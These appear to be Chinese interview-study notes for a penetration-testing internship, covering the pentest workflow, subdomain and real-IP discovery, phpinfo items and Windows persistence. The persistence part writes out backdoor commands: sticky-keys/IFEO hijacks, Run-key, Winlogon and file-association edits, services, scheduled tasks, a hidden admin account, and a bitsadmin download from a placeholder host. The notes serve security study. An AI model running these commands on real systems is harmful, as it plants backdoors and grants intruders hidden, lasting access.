[toc]


# 0x1字节渗透实习

## Q：渗透的流程

A：

**1. 明确目标**

 确定范围：测试目标的范围、ip、域名、内外网、测试账户。

 确定规则：能渗透到什么程度，所需要的时间、能否修改上传、能否提权、等等。

 确定需求：web应用的漏洞、业务逻辑漏洞、人员权限管理漏洞、等等。

 **2. 信息收集、**

 方式：主动扫描，开放搜索等。

 开放搜索：利用搜索引擎获得：后台、未授权页面、敏感url、等等。

 基础信息：IP、网段、域名、端口。

 应用信息：各端口的应用。例如web应用、邮件应用、等等。

 系统信息：操作系统版本

 版本信息：所有这些探测到的东西的版本。

 服务信息：中间件的各类信息，插件信息。

 人员信息：域名注册人员信息，web应用中发帖人的id，管理员姓名等。

 防护信息：试着看能否探测到防护设备。

 **3. 漏洞探测**

利用上一步中列出的各种系统，应用等使用相应的漏洞。

方法：

(1) 漏扫，awvs，IBM appscan等。

(2) 结合漏洞去exploit-db等位置找利用。

(3) 在网上寻找验证poc。

内容：

 系统漏洞：系统没有及时打补丁

 WebSever漏洞：WebSever配置问题

 Web应用漏洞：Web应用开发问题

 其它端口服务漏洞：各种21/8080(st2)/7001/22/3389

 通信安全：明文传输，token在cookie中传送等。

 **4. 漏洞验证**

将上一步中发现的有可能可以成功利用的全部漏洞都验证一遍。结合实际情况，搭建模拟环境进行试验。成功后再应用于目标中。

 自动化验证：结合自动化扫描工具提供的结果

 手工验证，根据公开资源进行验证

 试验验证：自己搭建模拟环境进行验证

 登陆猜解：有时可以尝试猜解一下登陆口的账号密码等信息

 业务漏洞验证：如发现业务漏洞，要进行验证

公开资源的利用

 exploit-db/wooyun/

 google hacking

 渗透代码网站

 通用、缺省口令

 厂商的漏洞警告等等。

**5. 信息分析**

为下一步实施渗透做准备。

 精准打击：准备好上一步探测到的漏洞的exp，用来精准打击

 绕过防御机制：是否有防火墙等设备，如何绕过

 定制攻击路径：最佳工具路径，根据薄弱入口，高内网权限位置，最终目标

 绕过检测机制：是否有检测机制，流量监控，杀毒软件，恶意代码检测等（免杀）

 攻击代码：经过试验得来的代码，包括不限于xss代码，sql注入语句等

 **6. 获取所需**

实施攻击：根据前几步的结果，进行攻击

 获取内部信息：基础设施（网络连接，vpn，路由，拓扑等）

 进一步渗透：内网入侵，敏感目标

 持续性存在：一般我们对客户做渗透不需要。rookit，后门，添加管理账号，驻扎手法等

 清理痕迹：清理相关日志（访问，操作），上传文件等

**7. 信息整理**

 整理渗透工具：整理渗透过程中用到的代码，poc，exp等

 整理收集信息：整理渗透过程中收集到的一切信息

 整理漏洞信息：整理渗透过程中遇到的各种漏洞，各种脆弱位置信息

**8. 形成报告**

 按需整理：按照之前第一步跟客户确定好的范围，需求来整理资料，并将资料形成报告

 补充介绍：要对漏洞成因，验证过程和带来危害进行分析

 修补建议：当然要对所有产生的问题提出合理高效安全的解决办法

## Q：子域名探测

### 在线接口

### 暴力

-   Layer子域名爆破机
-   Amass
    -   https://github.com/OWASP/Amass
-   knock
    -   https://github.com/guelfoweb/knock

### 搜索引擎

-   Google
    -   site:baidu.com
    -   site:*.wikimedia.org -www -store -jobs -uk (排除不感兴趣的子域名)
-   钟馗之眼
    -   site=域名

### Certificate Transparency（证书透明）

>   证书透明度(Certificate Transparency)是证书授权机构的一个项目，证书授权机构会将每个SSL/TLS证书发布到公共日志中。一个SSL/TLS证书通常包含域名、子域名和邮件地址。查找某个域名所属证书的最简单的方法就是使用搜索引擎搜索一些公开的CT日志。

-   在线：

    -   >   https://crt.sh/
        >   https://censys.io/
        >   https://developers.facebook.com/tools/ct/
        >   https://google.com/transparencyreport/https/ct/
        >   https://transparencyreport.google.com/https/certificates

-   CTFR（滥用证书透明记录）

    -   https://github.com/UnaPibaGeek/ctfr

### 信息泄露

-   文件泄露
    -   crossdomain.xml(跨域策略文件cdx)
        robots.txt
-   git仓库

### DNS解析

-   在线

    -   >   VirusTotal(https://www.virustotal.com/)
        >   ViewDNS(https://viewdns.info/)
        >   DNSdumpster(https://dnsdumpster.com/)
        >   Threatcrowd(https://www.threatcrowd.org/)


### DNS区域传送

>   [浅析DNS域传送漏洞](https://www.mi1k7ea.com/2021/04/03/%E6%B5%85%E6%9E%90DNS%E5%9F%9F%E4%BC%A0%E9%80%81%E6%BC%8F%E6%B4%9E/)

DNS区域传送（DNS zone transfer）指的是一台备用服务器使用来自主服务器的数据刷新自己的域（zone）数据库，目的是为了做冗余备份，防止主服务器出现故障时 dns 解析不可用。然而主服务器对来请求的备用服务器未作访问控制，验证身份就做出相应故而出现这个漏洞。

域传送漏洞：

>   DNS协议支持使用axfr类型的记录进行区域传送，用来解决主从同步的问题。如果管理员在配置DNS服务器的时候没有限制允许获取记录的来源，将会导致DNS域传送漏洞，也就是说，攻击者可以利用这个漏洞来获取该DNS中记录的敏感信息。

区域传送漏洞的危害：黑客可以快速的判定出某个特定zone的所有主机，收集域信息，选择攻击目标，找出未使用的IP地址，黑客可以绕过基于网络的访问控制。

## Q：信息收集如何处理子域名爆破的泛解析问题

A：

>   [子域名探测方法大全](https://xz.aliyun.com/t/8652)
>
>   [深入了解子域名挖掘tricks](https://xz.aliyun.com/t/6617)
>
>   [红蓝对抗之域名搜集方法总结](https://security.tencent.com/index.php/blog/msg/161)
>
>   [资产收集对抗-子域名爆破](https://www.cnblogs.com/piaomiaohongchen/p/15959042.html)
>
>   [改进subDomainburte，支持泛解析域名爆破](http://mayoterry.com/index.php/archives/33.html)


>   域名泛解析是指：利用 * （星号）来做次级域名以实现所有的次级域名均指向同一 IP 地址。
>
>   例如您的域名是 a.com，设置泛解析（*.a.com）后，所有该域名下的次级域名（如 b.a.com）都将指向与 a.com 相同的一个独立 IP 地址。（除单独设置的子域名解析）
>
>   您可以通过添加一个主机名为 * 的域名解析记录来将域名泛解析至您服务器的独立 IP 地址。

泛解析一直都是域名爆破中的大问题，目前的解决思路是根据确切不存在的子域名记录（md5(domain).domain）获取黑名单 IP，对爆破
过程的结果进行黑名单过滤。

可以将 TTL 也作为黑名单规则的一部分，评判的依据是：在权威 DNS 中，泛解析记录的 TTL 肯定是相同的，如果子域名
记录相同，但 TTL 不同，那这条记录可以说肯定不是泛解析记录。最终的判断代码如下：

```go


    // IsPanDNSRecord 是否为泛解析记录
    func IsPanDNSRecord(record string, ttl uint32) bool {
        _ttl, ok := panDNSRecords[TrimSuffixPoint(record)]
        // 若记录不存在于黑名单列表，不是泛解析
        // 若记录存在，且与黑名单中的 ttl 不等但都是 60（1min）的倍数，不是泛解析
        if !ok || (_ttl != ttl && _ttl%60 == 0 && ttl%60 == 0) {
            return false
        }
        return true
    }
```


## Q：如何绕过CDN查找真实ip

A：

1.  DNS历史解析记录：

    ```javascript
    iphistory：https://viewdns.info/iphistory/
    DNS查询：（https://dnsdb.io/zh-cn/）
    微步在线：（https://x.threatbook.cn/）
    域名查询：（https://site.ip138.com/）
    DNS历史查询：（https://securitytrails.com/）
    Netcraft：https://sitereport.netcraft.com/?url=github.com
    ```

2.  查找子域名

    很多时候，一些重要的站点会做CDN，而一些子域名站点并没有加入CDN，而且跟主站在同一个C段内，这时候，就可以通过查找子域名来查找网站的真实IP。
    
3.  网站邮件头信息

    邮箱注册，邮箱找回密码、RSS邮件订阅等功能场景，通过网站给自己发送邮件，从而让目标主动暴露他们的真实的IP，查看邮件头信息，获取到网站的真实IP。

4.  利用SSL证书寻找真实IP

    证书颁发机构(CA)必须将他们发布的每个SSL/TLS证书发布到公共日志中，SSL/TLS证书通常包含域名、子域名和电子邮件地址。因此SSL/TLS证书成为了攻击者的切入点。

    >   证书搜索：https://search.censys.io

5.  国外主机解析

    很多时候都只做了国内的，没有做国外的。

    国外ping：

    ```javascript
    https://asm.ca.com/zh_cn/ping.php
    http://host-tracker.com/
    http://www.webpagetest.org/
    https://dnscheck.pingdom.com/
    ```

6.  用 Zmap 扫全网


## Q：phpinfo你会关注哪些信息

A:

>   [phpinfo中重要信息](https://www.k0rz3n.com/2019/02/12/PHPINFO%20%E4%B8%AD%E7%9A%84%E9%87%8D%E8%A6%81%E4%BF%A1%E6%81%AF/)


1.  php版本
2.  网站真实IP
3.  绝对路径
4.  操作系统（Windows/Linux）
5.  配置文件位置
6.  支持的流：（zip,data,phar,file,php,http等等等），在文件包含、反序列化还有一些关键的 bypass 的时候有用
7.  支持的流过滤器（在文件包含、反序列化还有一些关键的 bypass 的时候有用）
8.  Core(核心)
    1.  `allow_url_fopen&allow_url_include`（文件包含必看）
    2.  `disable_functions`（命令执行、代码执行必看选项之一，[PHP 中可以利用的危险的函数](https://www.k0rz3n.com/2019/02/12/PHP%20%E4%B8%AD%E5%8F%AF%E4%BB%A5%E5%88%A9%E7%94%A8%E7%9A%84%E5%8D%B1%E9%99%A9%E7%9A%84%E5%87%BD%E6%95%B0/)）
    3.  `include_path`：（PHP 用include()函数包函文件时的默认路径）
    4.  `open_basedir`：（设置了文件读取的时候的目录限制）
9.  phar：（文件包含还有反序列化重点关注）
10.  gopher：（配合ssrf）
11.  fastcgi：（查看是否开启fastcgi和fastcgi的版本，可能导致解析漏洞、远程命令执行、任意文件读取等问题）

## Q：有没有了解过权限维持

>   [Windows权限维持总结](https://xz.aliyun.com/t/9718)
>
>   [Windows权限维持整理](https://xz.aliyun.com/t/8095)
>
>   [权限维持篇](https://bypass007.github.io/Emergency-Response-Notes/privilege/)
>
>   [windows中常见后门持久化方法总结](https://xz.aliyun.com/t/6461)

### 0x1 辅助功能镜像劫持

先前的版本可以直接更换：

```
屏幕键盘： C:\Windows\System32\osk.exe
放大镜： C:\Windows\System32\Magnify.exe
旁白： C:\Windows\System32\Narrator.exe
显示切换器 C:\Windows\System32\DisplaySwitch.exe
应用切换器： C:\Windows\System32\AtBroker.exe
```

直接命令行：

```sh
copy c:\windows\system32\sethc.ex c:\windows\system32\sethc1.exe
copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
```

高版本需要IFEO。所谓的IFEO就是Image File Execution Options，直译过来就是映像劫持。它又被称为“重定向劫持”（Redirection Hijack），它和“映像劫持”（Image Hijack，或IFEO Hijack）只是称呼不同，实际上都是一样的技术手段。白话来讲就是做某个操作的时候被拦截下来，干了别的事。

在iexplorer.exe中加键值对：debugger  c:\windows\system32\cmd.exe



或者直接命令行(需要管理员权限)：

`reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\iexplore.exe" /v "Debugger" /t REG_SZ /d "c:\windows\system32\cmd.exe" /f`



### 0x2.启动项/服务后门

#### 开始菜单启动项

开始菜单启动项，指示启动文件夹的位置，具体的位置是“开始”菜单中的“所有程序”-“启动”选项：

```
C:\Users\SD\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

相关键值：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

重启后会自动自启

#### 启动项注册表后门

`HKEY_CURRENT_USER`的改动不需要管理员权限。（更改`HKEY_LOCAL_MACHINE`需要管理员权限）

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```



同样，重启后会自启动。

使用命令行，修改hklm，需要管理员：

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run   /v "123" /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f
```

#### 自启动服务后门

>   在 Windows上还有一个重要的机制，也就是服务。服务程序通常默默的运行在后台，且拥有 SYSTEM 权限，非常适合用于后门持久化。我们可以将 EXE /DLL等可执行文件注册为服务实现后门持久化。

可以通过如下命令行方式添加一个服务：

```
sc create asdfadfa binpath=   "C:\Users\SD\Desktop\test.exe"  start= "auto" obj="LocalSystem"
sc start asdfadfa 
```

删除服务：

```
sc delete asdfadfa
```

或者powershell：

```
New-Service -Name "pentestlab" -BinaryPathName "C:\temp\pentestlab.exe" -Description "PentestLaboratories" -StartupType Automatic
sc start pentestlab
```



### 0x3.系统计划任务后门

>   Windows实现定时任务主要有schtasks与at二种方式:
>
>   At 适用于windows xp/2003，Schtasks适用于win7/2008或者以后

`taskschd.msc`

5min执行一次

`schtasks /create /sc minute /mo 5   /tn "aaaa" /tr C:\Windows\System32\cmd.exe`



### 0x4.DLL劫持

>   DLL劫持漏洞之所以被称为漏洞，还要从负责加载DLL的系统API LoadLibrary 来看。熟悉Windows代 码的同学都知道，调⽤ LoadLibrary 时可以使⽤DLL的相对路径。这时，系统会按照特定的顺序搜索⼀ 些⽬录，以确定DLL的完整路径。根据MSDN⽂档的约定，在使⽤相对路径调⽤ LoadLibrary （同样适 ⽤于其他同类DLL LoadLibraryEx，ShellExecuteEx等）时，系统会依次从以下6个位置去查找所需要的 DLL⽂件（会根据SafeDllSearchMode配置⽽稍有不同）。
>
>   1.  程序所在⽬录。
>   2.  加载 DLL 时所在的当前⽬录。
>   3.  系统⽬录即 SYSTEM32 ⽬录。
>   4.  16位系统⽬录即 SYSTEM ⽬录。
>   5.  Windows⽬录。
>   6.  PATH环境变量中列出的⽬录
>
>   dll劫持就发⽣在系统按照顺序搜索这些特定⽬录时。只要⿊客能够将恶意的DLL放在优先于正常DLL所在的⽬录，就能够欺骗系统优先加载恶意DLL，来实现“劫持”。

在win7及win7以上系统增加了KnownDLLs保护，需要在如下注册表下添加dll才能顺利劫持：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls
```

[DLL劫持原理及其漏洞挖掘（一）](https://www.anquanke.com/post/id/225911)

### 0x5.Winlogon用户登录初始化

winlogon.exe是windows中非常重要的进程,在用户还没登录系统之前就已经存在,并与密码验证相关的重要任务精密相关。例如，当在用户登录时，Winlogon 进程负责将用户配置文件加载到注册表中:

```
HKLM\Software\Microsoft\WindowsNT\CurrentVersion\Winlogon\
HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\
```

命令行:

```
reg delete "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /f
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"  /v "Userinit" /t REG_SZ /d "C:\Windows\system32\cmd.exe," /f
```

powershell：

```
Set-ItemProperty   "HKLM:\SOFTWARE\Microsoft\WINDOWS NT\CurrentVersion\Winlogon" -name   Userinit -value "C:\Windows\system32\userinit.exe,C:\Windows\system32\cmd.exe"
```



### 0x6.Logon Scripts后门

Windows登录脚本，当用户登录时触发，**Logon Scripts能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截**。

注册表位置:

```
HKEY_CURRENT_USER\Environment
```



### 0x7.文件关联

文件关联就是将一种类型的文件与一个可以打开它的程序建立起一种依存关系，一个文件可以与多个应用程序发生关联。

可以用assoc命令显示或修改文件扩展名关联，使用ftype显示或修改文件类型




需要管理员权限

```
reg add "HKCR\txtfile\shell\open\command" /ve /t REG_EXPAND_SZ /d "C:\Windows\system32\cmd.exe %1" /f
```



### 0x8.Bitsadmin

>   [BITSAdmin的介绍与Windows渗透测试中的使用](https://toutiao.io/posts/bcz5e1o/preview)
>
>   [bitsadmin一句话下载payload](https://micro8.gitbook.io/micro8/contents-1/41-50/41bitsadmin-yi-ju-hua-xia-zai-payload)

>   Windows操作系统包含各种实用程序，系统管理员可以使用它们来执行各种任务。这些实用程序之一是后台智能传输服务（BITS），它可以促进文件到Web服务器（HTTP）和共享文件夹（SMB）的传输能力。Microsoft提供了一个名为“ bitsadmin ” 的二进制文件和PowerShell cmdlet，用于创建和管理文件传输。

window7以上自带：`c:\windows\system32\bitsadmin.exe`

使用功能transfer参数下载

```
.\bitsadmin.exe /transfer backdoor "http://sssssssss/CM.EXE" C:\1.exe
```

复制本地文件：

BITSAdmin遵循文件传输的原则。因此，可以将其用作复制和粘贴命令。这意味着BITSAdmin也能将同一台计算机上的一个位置传输到另一个位置。

```sh
bitsadmin /create whitehat_day #创建一个whitehat_day的任务。
#使用/addfile参数将传输文件添加到whitehat_day任务中，并声明传输的文件名与路径，和保存位置与名称
bitsadmin /addfile whitehat_day d:\file.txt d:\testfile.txt
bitsadmin /resume whitehat_day#使用/resume参数来开启传输。
bitsadmin /complete whitehat_day#以临时文件的形式传输文件。要获取完整的文件，需要使用/complete参数
Get-ChildItem -Path d:\  #查看目标路径下是否存在file.txt
```

### 0x9.屏幕保护程序

>   利用前提:对方开启了屏幕保护
>
>   屏幕保护程序，当初的设计是为了防止长期屏幕的显示，预防老化与缩短屏幕显示器老化的一种保护程序。

注册表位置:

```
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaverIsSecure
HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut
HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE
```

```
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d C:\Users\hunter\Desktop\beacon.exe /f
reg add "hkcu\control panel\desktop" /v ScreenSaveActive /d 1 /f
reg add "hkcu\control panel\desktop" /v ScreenSaverIsSecure /d 0 /f
reg add "hkcu\control panel\desktop" /v ScreenSaveTimeOut /d 60 /f
```

如果从未设置过屏保程序的话，除“ScreenSaveActive”默认值为1，其他键都是不存在的，而屏保程序的正常运行必须保证这几个键都有数据才可以，因此必须把4个键都重写一遍。另外，经测试屏保程序最短触发时间为60秒，即使改成小于60的数值，依然还是60秒后执行程序。
当然，从注册表路径也可以看出这种方式只能获得当前用户权限的shell，优点是不需要提权即可维持。


### 0xA WMI构造无文件后门

WMI(Windows Management Instrumentation，即Windows管理规范)，大多数基于Windows的软件依赖于此服务。

>   [WMI的攻击，防御与取证分析技术之攻击篇](https://wooyun.js.org/drops/WMI%20%E7%9A%84%E6%94%BB%E5%87%BB%EF%BC%8C%E9%98%B2%E5%BE%A1%E4%B8%8E%E5%8F%96%E8%AF%81%E5%88%86%E6%9E%90%E6%8A%80%E6%9C%AF%E4%B9%8B%E6%94%BB%E5%87%BB%E7%AF%87.html)
>
>   [wmi与vbs](https://xz.aliyun.com/t/2080)
>
>   [利用WMI构建一个持久化的异步的无文件后门](https://m0nst3r.me/pentest/利用WMI构建一个持久化的异步的无文件后门.html)
>
>   [WMI利用专题](https://blog.51cto.com/antivirusjo/2092545)
>
>   [Powershell攻击指南黑客后渗透之道系列——进阶利用](https://www.anquanke.com/post/id/88851)
>
>   [A WMI Based Agentless Post-Exploitation RAT Developed in PowerShell](https://www.fireeye.com/blog/threat-research/2017/03/wmimplant_a_wmi_ba.html)
>
>   [WMI Backdoor](https://www.tuicool.com/articles/zmUVbyJ)
>
>   [Appendix L: Events to Monitor](https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/appendix-l--events-to-monitor)
>
>   [利用WMI打造完美“三无”后门](http://demon.tw/copy-paste/vbs-wmi-trojan-3.html)
>
>   [如何检测并移除WMI持久化后门？](https://www.tuicool.com/articles/IzieuyR)
>
>   [解析APT29的无文件WMI和PowerShell后门](https://www.anquanke.com/post/id/85851)
>
>   [无文件攻击的兴起与应对之道](https://www.aqniu.com/learn/31053.html)

### 0xB.影子用户

即创建的隐藏用户，它无法通过普通命令进行查询，比较隐蔽。（要管理员）

创建个隐藏用户

```
net user test$ 123456 /add
net localgroup administrators test$ /add
```

net user无法查看

